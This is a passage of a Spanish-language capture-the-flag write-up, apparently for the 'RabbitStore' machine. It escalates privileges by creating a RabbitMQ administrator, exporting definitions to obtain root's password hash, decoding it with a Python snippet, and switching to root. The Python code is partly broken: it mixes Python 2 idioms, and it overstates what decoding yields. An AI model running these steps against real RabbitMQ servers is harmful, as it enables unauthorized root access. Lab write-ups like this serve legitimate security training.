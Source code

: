 Al investigar el funcionamiento de `RabbitMQ`, descubrimos que podemos exportar las definiciones como `administrador`, las cuales incluyen los `password_hash` mencionados en el archivo de usuarios. Ahora, nuestra intención es crear un usuario administrador y obtener las definiciones utilizando este nuevo usuario.

```
rabbitmqctl add_user nando nando 
rabbitmqctl set_permissions -p / nando ".*" ".*" ".*"
rabbitmqctl set_user_tags nando administrator
rabbitmqadmin export rabbit.definitions.json -u nando -p nando 
```
<figure><img src="../.gitbook/assets/RabbitStore/setpermisions.png" alt=""><figcaption></figcaption></figure>


Y para ver los hashes que contiene con el siguiente comando lo podemos ver:

```
rabbitmqadmin export definitions -u nando -p nando
```

Nos muestra el hash del usuario `root`, y con el siguiente código podemos decodificar dicho hash.

{% embed url="https://gist.github.com/christianclinton/faa1aef119a0919aeb2e" %}

Solo podemos usar una parte del codigo que es lo siguiente:

```
#!/bin/env/python
import hashlib
import binascii

password_hash = `<HASH>`
def decode_rabbit_password_hash(password_hash):
    password_hash = binascii.a2b_base64(password_hash)
    decoded_hash = password_hash.encode('hex')
    return (decoded_hash[0:8], decoded_hash[8:])

print(decode_rabbit_password_hash(password_hash))
```

```
python3 decode-hash.py
```

De esta manera, obtendremos la contraseña del usuario `root` y podremos iniciar sesión como tal.

```
su root
```

